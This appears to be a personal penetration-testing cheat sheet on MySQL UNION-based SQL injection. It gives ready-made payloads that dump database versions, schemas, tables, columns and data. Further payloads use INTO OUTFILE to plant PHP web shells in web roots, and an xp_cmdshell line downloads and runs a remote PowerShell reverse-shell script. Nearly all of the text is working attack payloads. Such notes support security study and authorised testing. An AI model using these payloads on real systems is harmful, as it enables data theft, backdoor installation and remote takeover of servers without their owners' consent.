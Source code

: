 Check out:
https://perspectiverisk.com/mysql-sql-injection-practical-cheat-sheet/

https://www.exploit-db.com/papers/13650

[https://www.imperva.com/learn/application-security/sql-injection-sqli/](https://www.imperva.com/learn/application-security/sql-injection-sqli/)

![[Pasted image 20220712135953.png]]


Retrieve database version:
```SQL
UNION ALL SELECT NULL, version() -- -
```

List the databases:

```SQL
UNION ALL SELECT NULL, concat(schema_name) FROM information_schema.schemata -- -
```

Retrieve table names:

```SQL
UNION ALL SELECT NULL, concat(table_name) FROM information_schema.TABLES WHERE table_schema=database() -- -
```

Retrieve column names:

```SQL
UNION ALL SELECT NULL, concat(column_name) FROM information_schema.COLUMNS WHERE table_schema=database() -- -
```

Retrieve data:

```SQL
UNION ALL SELECT NULL, (0x28, column1, 0x3a, column2, 0x29) FROM table1 -- -
```

Retrieve data from different database:

```SQL
UNION ALL SELECT NULL, (0x28, column1, 0x3a, column2, 0x29) FROM databaseName.table1 -- -
```

#### Using INTO OUTFILE to create a malicious PHP file:
```SQL
http://$TARGET/debug.php?id=1 union all select 1,2, "<?php echo shell_exec($_GET['cmd']);?>" into OUTFILE 'c:/xampp/htdocs/backdoor.php'
```

```SQL
http://$TARGET/debug.php?id=1 UNION SELECT '<?php echo shell_exec($_GET[\'cmd\']); ?>', null INTO OUTFILE '/var/www/cmd.php' #
```

```SQL
' UNION SELECT ("<?php echo passthru($_GET['cmd']);") INTO OUTFILE 'C:/xampp/htdocs/command.php'  -- -' 
```

#### Windows box cmdshell trick:
```SQL
xp_cmdshell "powershell -IEX(New-Object Net.WebClient).DownloadString('http://$TARGET/Invoke-PowerShellTcp.ps1')"
```